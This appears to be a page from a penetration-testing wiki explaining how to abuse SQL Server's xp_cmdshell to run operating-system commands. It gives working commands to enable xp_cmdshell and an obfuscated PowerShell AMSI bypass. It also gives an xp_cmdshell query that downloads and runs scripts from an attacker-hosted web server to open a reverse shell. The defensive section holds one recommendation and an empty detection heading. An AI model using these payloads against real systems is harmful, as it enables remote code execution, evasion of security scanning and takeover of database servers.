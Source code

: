 ```yaml
---
description: xp_cmdshell could be used to execute commands on the SQL Server.
---
```


# Executing Commands

## Attacking

### How it works

[xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) is a SQL Server functionality that is disabled by default. However it can be enabled using sp\_configure. It spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text. The Windows process spawned by **** xp\_cmdshell has the same security rights as the SQL Server service account.

### Executing the attack

**In this example and screenshots mssql-cli is used, but this also works with Heidisql in the query tab.**

1. Enable xp\_cmdshell with the following commands:

```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

![](<../../../.gitbook/assets/image (69) (1).png>)

2\. Execute commands with xp\_cmdshell:

```
EXEC master..xp_cmdshell 'whoami'
```

![](<../../../.gitbook/assets/image (60) (1) (1).png>)

3\. Gain a reverse shell and execute commands by executing the following query after doing the following:

* Create a webserver directory to host some files.
* Download [Invoke-PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
* Save a amsi bypass in amsi.txt, for example.

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
EXEC master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/amsi.txt''); iex (New-Object Net.WebClient).DownloadString(''http://192.168.248.3:8090/Invoke-PowerShellTcp2.ps1'')"'
```

This query will download and load into memory the `amsi.txt` file and then the `Invoke-PowerShellTcp` script creating a reverse shell. These should be hosted on your webserver on the attacking machine. For more information about this technique check out:

{% content-ref url="../../misc/reverse-shell-trick.md" %}
[reverse-shell-trick.md](../../misc/reverse-shell-trick.md)
{% endcontent-ref %}

![](<../../../.gitbook/assets/image (45) (1).png>)

## Defending

### Recommendations

* Sysadmin users can enable xp\_cmdshell, so limit these users.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15" %}
